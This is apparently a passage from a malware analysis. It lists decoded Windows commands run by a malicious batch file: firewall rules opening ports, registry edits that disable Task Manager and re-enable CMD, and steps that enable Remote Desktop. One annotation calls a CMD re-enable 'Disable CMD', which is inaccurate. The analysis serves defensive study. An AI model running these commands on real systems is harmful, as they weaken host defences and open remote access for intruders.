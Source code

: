 ```python
C:\WINDOWS\system32\cmd.exe /c ""C:\Users\XXX\AppData\Local\Temp\svc.bat" x"
```
* Svc.bat is the name we saw on another resource

```python
C:\WINDOWS\system32\cmd.exe /c chcp
```

After the ones seen above most are base64 encoded and can be decoded to:
```python
netsh advfirewall firewall add rule name='BC' dir=in action=allow protocol=TCP localport=51500
```

* We already identified this activity

```python
netsh advfirewall firewall add rule name='FTd' dir=out action=allow protocol=TCP localport=20
```
* We already identified this activity

```python
netsh advfirewall firewall add rule name='FTc' dir=out action=allow protocol=TCP localport=21
```
* We already identified this activity

```python
REG ADD HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System /v "DisableRegistryTools" /t REG_DWORD /d "0" /f
```
* We already identified this activity

```python
REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System /v "DisableTaskMgr" /t REG_DWORD /d "1" /f
```
* We already identified this activity

```python
REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d "0" /f
```
* RDP Setup related

```python
REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v "fSingleSessionPerUser"/t REG_DWORD /d "0" /f
```
* RDP Setup related

```python
REG ADD HKCU\Software\Policies\Microsoft\Windows\System /v "DisableCMD" /t REG_DWORD /d "0" /f
```
* Disable CMD

```python
netsh advfirewall firewall set rule group="remote desktop" new enable=yes
```
* RDP Setup related

